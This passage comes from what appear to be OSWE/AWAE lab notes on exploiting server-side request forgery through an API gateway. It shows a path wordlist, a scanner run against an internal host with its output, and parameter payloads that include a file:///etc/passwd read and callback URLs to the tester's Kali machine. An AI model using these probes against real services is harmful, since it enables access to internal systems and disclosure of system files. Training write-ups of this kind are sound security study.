 ```bash

{"errors":[{"message":"Request failed with status code 404","extensions":{"code":"INTERNAL_SERVER_ERROR"}}]}
```
Our request failed to locate a valid resource, likely because the backend URL differs from the one exposed by the API gateway—possibly due to versioning. We'll try fuzzing and analyzing response codes to identify the correct backend path.

First, we'll need to build a short wordlist with potential URLs.
```text
/
/render
/v1/render
/api/render
/api/v1/render
```
Then a Python script: [ssrf_path_scanner.py](https://github.com/m0hammad-yaser/OSWE-AWAE-Notes/blob/main/apigateway/ssrf_path_scanner.py)

Was written to send SSRF payloads by iterating through a file containing a list of paths.

Output:
```bash
┌──(kali㉿kali)-[~]
└─$ python3 ssrf_path_scanner.py -t http://apigateway:8000/files/import -s http://172.16.16.5:9000 -p paths.txt --timeout 5
/       DOES NOT EXIST: {"errors":[{"message":"Request failed with status code 404","extensions":{"code":"INTERNAL_SERVER_ERROR"}}]}
/render DOES NOT EXIST: {"errors":[{"message":"Request failed with status code 404","extensions":{"code":"INTERNAL_SERVER_ERROR"}}]}
/v1/render      DOES NOT EXIST: {"errors":[{"message":"Request failed with status code 404","extensions":{"code":"INTERNAL_SERVER_ERROR"}}]}
/api/render     EXISTS: {"errors":[{"message":"Request failed with status code 400","extensions":{"code":"INTERNAL_SERVER_ERROR"}}]}
/api/v1/render  DOES NOT EXIST: {"errors":[{"message":"Request failed with status code 404","extensions":{"code":"INTERNAL_SERVER_ERROR"}}]}
                                                                                                                                                                                             
┌──(kali㉿kali)-[~]
└─$ 
```
We received one interesting response: `"Request failed with status code 400"`. An HTTP `400 Bad Request` usually indicates that the server cannot process a request due to missing data or a client error.

If the service generates content, we need to determine how to supply data to it. We'll start by testing a small set of relevant parameter names and values, **including our Kali host in URLs to monitor for callbacks**. `paths2.txt`:

```text
?data=foobar
?file=file:///etc/passwd
?url=http://192.168.45.203/render/url
?input=foobar
?target=http://192.168.45.203/render/target
```
Even without valid parameters, triggering errors on the render service might reveal useful clues. In unfamiliar environments, subtle differences in server responses can help us understand the system. We'll run a new wordlist through our [ssrf_path_scanner.py](https://github.com/m0hammad-yaser/OSWE-AWAE-Notes/blob/main/apigateway/ssrf_path_scanner.py) script again, updating the SSRF target to the new URL. With an Apache HTTP server opened on port `80` (don't use Python server because it doesn't desplay the useragent):
